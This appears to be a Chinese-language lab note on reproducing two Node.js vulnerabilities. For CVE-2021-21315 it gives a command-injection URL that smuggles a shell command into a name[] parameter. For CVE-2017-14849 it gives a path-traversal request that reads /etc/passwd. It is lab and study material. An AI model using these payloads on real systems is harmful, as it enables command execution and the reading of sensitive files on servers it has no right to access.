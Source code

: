 ![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135037676-996792657.png)

```plain
默认开启8000端口，访问：http://127.0.0.1:8000/
访问触发地址：http://127.0.0.1:8000/api/getServices?name[]=$(echo -e 'xiaodi' > test.txt)
命令：echo -e 'xiaodi' > test.txt
但是没有成功。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135038360-515150072.png)

```plain
在服务器上启动环境：
下载：git clone https://github.com/ForbiddenProgrammer/CVE-2021-21315-PoC.git
启动：node index.js
利用：http://175.178.151.29:8000/api/getServices?name[]=$(echo -e 'xiaodi' > test.txt)
2、cve_2017_14849
环境：http://vulfocus.io/#/dashboard

Joyent Node.js 8.6.0之前的8.5.0版本中存在安全漏洞。远程攻击者可利用该漏洞访问敏感文件。

访问抓包，修改数据包就可以完成
在返回包XPB中为：X-Powered-By: Express基本上可以确定是note.js
GET：
/static/../../../a/../../../../etc/passwd
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135038421-1868048000.png)
